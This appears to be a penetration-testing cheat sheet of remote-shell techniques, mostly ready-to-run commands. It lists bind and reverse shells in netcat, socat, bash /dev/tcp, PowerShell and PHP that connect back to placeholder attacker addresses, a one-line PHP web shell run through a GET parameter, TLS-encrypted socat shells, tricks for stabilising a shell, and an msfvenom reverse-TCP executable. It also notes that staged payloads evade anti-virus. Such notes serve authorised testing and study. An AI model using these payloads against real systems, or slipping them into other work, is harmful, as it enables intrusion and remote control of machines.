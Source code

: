 # Remote shell

## Bind shells

### Netcat bind shell

`nc -lvnp 1234 -e "cmd.exe"`

### Socat bind shell

- Linux target:

  `socat TCP-L:1234 EXEC:"bash -li"`

- Windows target:

  `socat TCP-L:1234 EXEC:"powershell.exe,pipes"`

  We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

- Attackbox connect command:

  `socat TCP:<TARGETIP>:1234 -`

## Reverse shells

### Bash reverse shell

The simplest method is to use bash, which is available on almost all Linux machines. This script was tested on Ubuntu 18.04, but not all versions of bash support this function:

`/bin/bash -i >& /dev/tcp/<ATTACKBOXIP>/9999 0>&1`

or

```
exec 5<>/dev/tcp/<ATTACKBOXIP>/9999
cat <&5 | while read line; do $line 2>&5 >&5; done
```

### Windows powershell

`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

### PHP reverse shell

If the target machine is a web server that supports PHP, this language will be an excellent choice for a reverse shell:

`php -r '$sock=fsockopen("10.10.17.1",1337);exec("/bin/sh -i <&3 >&3 2>&3");'`

If this does not work, you can try replacing &3 with consecutive file descriptors.

### PHP web shell

`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

### Netcat reverse shell

#### Setup listener:

`nc -lvnp 1234`

#### Option 1 with -e:

`nc <ATTACKBOXIP> 1234 -e /bin/bash`

#### Option 2 without -e:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKBOXIP> 1234 >/tmp/f`

### Socat reverse shell

#### Setup basic listener:

`socat TCP-L:1234 -`

#### Setup fully stable listener:

`socat TCP-L:1234 FILE:``tty``, raw,echo=0`

#### Windows target (for basic listener):

`socat TCP:<ATTACKBOXIP>:1234 EXEC:powershell.exe,pipes`

#### Linux target (for basic listener):

`socat TCP:<ATTACKBOXIP>:1234 EXEC:"bash -li"`

#### Linux target (for fully stable listener):

`socat TCP:<ATTACKBOXIP>:1234 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

### Socat encrypted shells

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.
We then need to merge the two created files into a single .pem file:

`cat shell.key shell.crt > shell.pem`

Now, when we set up our reverse shell listener, we use:

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`

This sets up an OPENSSL listener using our generated certificate. verify=0 tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening.

To connect back, we would use:

`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

The same technique would apply for a bind shell:

Target:

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`

Attacker:

`socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

### Stablize remote shell

#### Use Python

To "stabilize your shell" for easier ability in typing commands, you can use the usual Python upgrade trick (assuming you are running in a bash shell):

- (on the reverse shell) `python3 -c "import pty; pty.spawn('/bin/bash')"`
- (on the reverse shell) `export TERM=xterm`
- (press `Ctrl+Z` on your keyboard)
- (on your local host) `stty raw -echo; fg`
- (press `Enter` on your keyboard)

You now have a stable shell, where you can safely use the left-and-right arrow keys to move around your input, up-and-down arrow keys to revisit command history, Tab for autocomplete and safely Ctrl+C to stop running programs!

#### Use rlwrap

1. Setup listener:
   This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise.
   
   `rlwrap nc -lvnp 1234`

2. Stabilize by using the same trick as in step three of the previous technique:

- (press `Ctrl+Z` on your keyboard)
- (on your local host) `stty raw -echo; fg`
- (press `Enter` on your keyboard)

## Shell payloads

### msfvenom

The standard syntax for msfvenom:

`msfvenom -p <PAYLOAD> <OPTIONS>`

#### Windows .exe

`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<ATTACKBOXIP> LPORT=1234`

### Staged vs stageless

- Staged payloads are sent in two parts. The first part is called the stager. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler.
- Stageless payloads entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

